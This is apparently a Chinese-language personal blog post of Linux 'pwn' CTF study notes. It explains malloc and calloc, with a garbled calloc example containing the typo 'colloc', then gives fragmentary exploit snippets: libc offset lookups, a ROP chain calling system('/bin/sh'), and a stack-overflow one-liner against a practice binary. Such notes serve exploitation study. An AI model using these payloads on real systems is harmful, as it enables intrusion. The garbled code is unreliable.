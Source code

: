 ```yaml
---
layout:		post
title:		linux pwn记录篇
author:		wooy0ung
tags:		pwn
category: 	note
---
```



>[索引目录]  
>0x001 house of spirit  
>0x002 Python  
<!-- more -->


1.分配内存空间函数malloc

　　调用形式： (类型说明符*) malloc (size) 功能：在内存的动态存储区中分配一块长度为"size" 字节的连续区域。函数的返回值为该区域的首地址。 “类型说明符”表示把该区域用于何种数据类型。(类型说明符*)表示把返回值强制转换为该类型指针。“size”是一个无符号数。例如： pc=(char *) malloc (100); 表示分配100个字节的内存空间，并强制转换为字符数组类型， 函数的返回值为指向该字符数组的指针， 把该指针赋予指针变量pc。

2.分配内存空间函数 calloc

　　calloc 也用于分配内存空间。调用形式： (类型说明符*)calloc(n,size) 功能：在内存动态存储区中分配n块长度为“size”字节的连续区域。函数的返回值为该区域的首地址。(类型说明符*)用于强制类型转换。calloc函数与malloc 函数的区别仅在于一次可以分配n块区域。例如： ps=(struet stu*) calloc(2,sizeof (struct stu)); 其中的sizeof(struct stu)是求stu的结构长度。因此该语句的意思是：按stu的长度分配2块连续区域，强制转换为stu类型，并把其首地址赋予指针变量ps。

 malloc它允许从空间内存池中分配内存,malloc()的参数是一个指定所需字节数的整数.
例如:P=(int*)malloc(n*sizeof(int));
  colloc与malloc类似,但是主要的区别是存储在已分配的内存空间中的值默认为0,使用malloc时,已分配的内存中可以是任意的值.
  colloc需要两个参数,第一个是需要分配内存的变量的个数,第二个是每个变量的大小.
例如:P=(int*)colloc(n,colloc(int));






readelf -a libc-2.19.so | grep " read@"

strings -a -t x libc-2.19.so | grep "/bin/sh"



buf = ""
buf += 'A'*104                          # junk
buf += pack("<Q", 0x0000004006a3)       # pop rdi; ret;
buf += pack("<Q", 0x7ffff7b91cdb)       # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a5b640)       # address of system()


## 0x001 house of spirit

house of spirit简单的来说就是free一个假的fastbin堆块，然后再下次malloc的时候就会返回该假堆块

```
ROPgadget --binary bin --string "/bin/sh"

```


## 0x002 Python

```
(python -c 'print "A"*140 + "\xa4\x84\x04\x08"';cat )| ./rop1
```

## 0x003 linux

```
x64 0x400000
```

```
$ chmod a+x ./linux_server64
$ ./linux_server64
```